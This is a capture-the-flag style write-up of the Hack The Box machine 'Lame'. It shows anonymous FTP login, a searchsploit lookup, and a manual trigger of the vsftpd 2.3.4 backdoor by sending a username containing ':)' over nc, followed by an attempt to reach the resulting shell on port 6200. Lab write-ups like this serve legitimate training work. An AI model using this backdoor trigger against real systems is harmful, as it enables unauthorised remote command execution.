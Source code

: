```bash
luc@kali:~/HTB/Lame$ ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:luc): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -lsa
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 .
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 ..
226 Directory send OK.
```

Anonymous login is allowed, but there is no content on the FTP server.
We do know that this server uses `vsftpd 2.3.4` and there is a backdoor in this version.

```bash
luc@kali:~/HTB/Lame$ searchsploit vsFTPd
...
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit) | unix/remote/17491.rb
```

I prefer a non Metasploit exploit because of OSCP preparation where Metasploit usage is limited. We'll get back to this exploit in [Bonus/vsftpd 2.3.4 with Metasploit](#vsftpd-234-with-metasploit).

### vsftpd 2.3.4 without Metasploit

This version of `vsftpd` has a backdoor which is triggered by having the username contain `:)`. This will open port 6200 which is a shell the hacker can use to issue commands on the server.

First we need to trigger the exploit

```bash
luc@kali:~/HTB/Lame$ nc 10.10.10.3 21
220 (vsFTPd 2.3.4)
USER exploit:)
331 Please specify the password.
PASS xxx
530 Login incorrect.
```

We should now be able to connect to port 6200.

```bash
luc@kali:~/HTB/Lame$ nc 10.10.10.3 6200
Ncat: TIMEOUT.
luc@kali:~/HTB/Lame$ sudo nmap -p 6200 10.10.10.3
[sudo] password for luc:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-16 13:11 CEST
Nmap scan report for 10.10.10.3
Host is up (0.014s latency).

PORT     STATE    SERVICE
6200/tcp filtered lm-x

Nmap done: 1 IP address (1 host up) scanned in 0.44 seconds
```

